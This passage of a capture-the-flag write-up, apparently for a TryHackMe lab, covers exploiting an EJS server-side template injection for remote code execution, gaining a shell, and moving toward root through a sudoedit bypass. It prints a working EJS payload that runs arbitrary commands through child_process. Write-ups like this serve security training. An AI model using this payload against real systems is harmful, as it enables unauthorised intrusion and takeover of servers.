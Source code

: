 ![Settings](https://miro.medium.com/v2/resize:fit:828/format:webp/1*O9zc80SGOu1r8lW8kr1eZQ.png)

### Server Side Template Injection

The password is reflected which tells me it could be `SSTI` because I tried `XSS` and had no luck. I tried to generate an error and it revealed ejs file extension.

> Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
{: .prompt-tip }

![error](https://miro.medium.com/v2/resize:fit:828/format:webp/1*BA7pEsmqLR0d8xj_L661NQ.png)
_[Embedded Javascript](https://www.geeksforgeeks.org/use-ejs-as-template-engine-in-node-js/)_

We can achieve Remote Code Execution by using the following attack from this [article](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

```bash
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('your_command');s
```
{: .nolineno }

![rce](https://miro.medium.com/v2/resize:fit:828/format:webp/1*AWrxY-LQaFgNvwRWgSdo-A.png)
_Reverse Shell_

We can [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) our shell since Python3 is installed on the system. Reading the user flag.

```bash
web@cyprusbank:~$ cat user.txt 
THM{FLAGGED}
```
{: .nolineno }

## Privilege Escalation

While manually enumerating the system I found the web user can run sudoedit as root.

```bash
web@cyprusbank:~/.nvm/versions/node/v17.9.1/bin$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
{: .nolineno }

I found a way to modify files because the `sudoedit` version running on the system is vulnerable. [Read more](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis).

